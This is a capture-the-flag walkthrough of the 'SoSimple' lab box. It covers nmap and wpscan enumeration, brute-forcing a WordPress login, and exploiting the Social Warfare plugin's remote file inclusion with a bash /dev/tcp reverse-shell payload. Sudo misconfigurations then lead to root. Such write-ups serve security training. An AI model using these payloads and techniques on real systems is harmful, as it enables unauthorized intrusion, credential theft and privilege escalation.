 # PG Play - SoSimple

#### Ip: 10.10.199.225
#### Name: SoSimple
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ sudo nmap -p-  --min-rate 10000 192.168.188.78
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 12:03 CDT
Nmap scan report for 192.168.188.78
Host is up (0.063s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ sudo nmap -sC -sV 192.168.188.78 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 12:04 CDT
Nmap scan report for 192.168.188.78
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b5543efafd03d0e63207af4ac416a45 (RSA)
|   256 53f5231be9aa8f41e218c6055007d8d4 (ECDSA)
|_  256 55b77b7e0bf54d1bdfc35da1d768a96b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: So Simple
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.82 seconds
```

Navigating to the webpage on port 80 we find a basic image:

site.png

And checking out the source code we find a comment:

note.png

Using Feroxbuster we find there is a page running WordPress:

ferox.png

Heading to that page we find a pretty generic WordPress site:

wp.png

Lets use wpscan to enumerate a but more:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ wpscan --url http://192.168.188.78/wordpress/ --enumerate vp,u,vt,tt


_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
```

Cool looks like we've found two usernames:

users.png

We can also bruteforce max's password using wpscan:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ wpscan --url http://192.168.188.78/wordpress/wp-login.php --usernames max --passwords /usr/share/wordlists/rockyou.txt

<snip>

[!] Valid Combinations Found:
 | Username: max, Password: opensesame
```

Logging into the site and checking out the page source we can see that there is a plugin called social warfare.

source.png

Searching for exploits I find: https://www.exploit-db.com/exploits/46794

Looking at the exploit it seems the path we can exploit is:

```text
wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s
```

path.png

And it also seems we can use this to grab a reverse shell ending in .txt

### Exploitation

Lets create a file with a reverse shell one-liner and save it as payload.txt:

```text
<pre>system("bash -c 'bash -i >& /dev/tcp/192.168.45.197/443 0>&1'")</pre>
```

Now lets set up a python webserver:

```text
python -m http.server 80
```
As well as a netcat listener, and then naviagate to the following url:

http://192.168.188.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.197/payload.txt

Checking our python logs we can confirm the file has been downloaded:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.188.78 - - [15/Aug/2023 12:38:27] "GET /payload.txt?swp_debug=get_user_options HTTP/1.0" 200 -
```

And we also catch a reverse shell back:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.188.78] 35788
bash: cannot set terminal process group (922): Inappropriate ioctl for device
bash: no job control in this shell
www-data@so-simple:/var/www/html/wordpress/wp-admin$ whoami
whoami
www-data
www-data@so-simple:/var/www/html/wordpress/wp-admin$ hostname
hostname
so-simple
```

Once on the target I find a copy of Max's SSH key, so I'll grab that and SSH in as Max for a more stable connection:

```text
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/SoSimple]
└─$ ssh -i id_rsa max@192.168.188.78
```

We can now grag the local.txt flag:

local_flag.png

### Privilege Escalation

Running `sudo -l` to see what can be run with elevated permissions, we find we can run as user steven service with sudo.

We can head over to https://gtfobins.github.io/gtfobins/service/ and see what the syntax is to exploit this:

gtfo.png

Lets run:

```text
max@so-simple:~$ sudo -u steven service ../../bin/sh
$ whoami
steven
```

Nice, that worked! Lets see what steven can run with sudo:

```text
$ sudo -l
Matching Defaults entries for steven on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User steven may run the following commands on so-simple:
    (root) NOPASSWD: /opt/tools/server-health.sh
```

Trying to inspect that file, we find it doesn't actually exist:

```text
$ cd /opt/tools
/etc/init.d/../../bin/sh: 3: cd: can't cd to /opt/tools
$ ls
bin   cdrom  etc   lib	  lib64   lost+found  mnt  proc  run   snap  swap.img  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   sys       usr
$ cd opt
$ ls
$ ls -la
total 8
drwxr-xr-x  2 steven steven 4096 Sep  3  2020 .
drwxr-xr-x 20 root   root   4096 Aug 14  2020 ..
```

Cool, so we should just be able to create our own file with the same name with a bash shell in it, make it executable, and then we can execute it using sudo, which will give us a root shell.

First, lets get a better prompt with `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Then we can run the following:

tools.png

Nice! We're root! Lets grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------